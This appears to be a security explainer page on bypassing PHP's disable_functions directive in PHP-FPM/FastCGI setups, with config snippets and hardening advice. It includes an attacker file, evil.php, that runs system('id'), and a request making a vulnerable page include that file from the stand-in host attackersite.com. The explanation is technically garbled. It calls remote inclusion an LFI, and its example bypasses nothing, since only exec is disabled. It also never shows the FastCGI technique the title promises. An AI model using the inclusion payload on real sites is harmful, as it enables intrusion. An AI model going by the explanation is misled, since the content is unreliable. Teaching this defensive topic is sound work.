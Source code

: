 # disable_functions bypass - php-fpm/FastCGI


# 👉 Overview

---

### 👀 What ?

> PHP's disable_functions is a configuration directive that allows server administrators to disable certain PHP functions that they consider to be potentially harmful. The disable_functions bypass technique is used in the context of exploiting PHP-FPM/FastCGI setups. PHP-FPM (FastCGI Process Manager) is an alternative PHP FastCGI implementation that is particularly suited for websites requiring high performance.
> 

### 🧐 Why ?

> Understanding disable_functions bypass in PHP-FPM/FastCGI is crucial for cybersecurity professionals, server administrators, and web developers. It is important because it helps identify potential security risks and vulnerabilities in server configurations. Misconfigurations could allow malicious users to bypass disable_functions directive which could lead to severe security issues including remote code execution (RCE) and unauthorized access to system resources.
> 

### ⛏️ How ?

> To use the disable_functions bypass, an attacker usually needs to have a certain level of access to the server. This could be through an existing vulnerability in an application running on the server. The attacker then attempts to manipulate PHP-FPM/FastCGI configurations to ignore the disable_functions directive. Because of the potential risks, server administrators should regularly check and properly configure disable_functions directive and be aware of potential bypass techniques.
> 

### ⏳ When ?

> The use and exploitation of disable_functions bypass in PHP-FPM/FastCGI has been known since PHP introduced the disable_functions directive in PHP 4.0.3, which was released in 2000. It has been a topic of interest in the cybersecurity community due to the potential security implications if not properly handled.
> 

# ⚙️ Technical Explanations

---

The `disable_functions` directive in PHP allows server administrators to disable specific PHP functions that could potentially be exploited by attackers. This could include functions like `exec()`, `shell_exec()`, and `system()` which, when misused, might lead to severe security risks such as remote code execution or unauthorized access to system resources.

However, in certain setups of PHP-FPM (FastCGI Process Manager) and FastCGI, it's possible for attackers to bypass this directive due to misconfigurations. PHP-FPM is an alternative PHP FastCGI implementation that is known for its high performance. It is often used in high-traffic websites and applications.

The bypassing of the `disable_functions` directive typically happens when PHP-FPM is not correctly isolated and secured. For instance, an attacker could exploit a local file inclusion (LFI) vulnerability to execute arbitrary code, thus bypassing the `disable_functions` directive. An LFI vulnerability occurs when an application allows user-supplied input in file or directory paths. This could lead to unauthorized file access or even code execution.

It is therefore crucial for server administrators to properly configure and secure their PHP-FPM and FastCGI setups. This involves ensuring that PHP-FPM is correctly isolated and that the `disable_functions` directive is properly configured. Regular checks should be performed to prevent potential bypass techniques.

The `disable_functions` bypass technique in PHP-FPM/FastCGI has been known since PHP 4.0.3, which was introduced in 2000. This issue remains relevant due to the potential security implications if not properly managed. As such, understanding this bypass technique is vital for cybersecurity professionals, server administrators, and web developers. It helps in identifying potential security risks and vulnerabilities in server configurations, leading to a safer and more secure web environment.

For example, let's consider a PHP application running on a server with PHP-FPM and FastCGI. The server has disabled the function `exec()` using the `disable_functions` directive.

```php
; php.ini
disable_functions = exec

```

However, due to a Local File Inclusion (LFI) vulnerability, an attacker can run arbitrary code. They could do this by tricking the application into including a file from an external source, which contains malicious PHP code.

```php
// Attacker's external file - evil.php
<?php
  system('id');
?>

```

The attacker could then make a request to a vulnerable endpoint in the application.

```bash
<http://targetsite.com/vuln_page.php?file=http://attackersite.com/evil.php>

```

The application includes the malicious file, and the `system('id')` command is executed, bypassing the `disable_functions` directive.

Here, the crucial step was that the attacker was able to exploit an LFI vulnerability in the application. To prevent this, the application should validate user-supplied input for file includes, and the server should be configured to disallow including files from external sources.

Moreover, the PHP-FPM should be correctly isolated and secured. For example, using containers or chroot environments to isolate the PHP-FPM processes can prevent an attacker from escalating their privileges even if they manage to execute arbitrary code.

```bash
; www.conf
[www]
chroot = /home/www/

```

These examples demonstrate the importance of proper server configuration, application security, and awareness of potential bypass techniques.
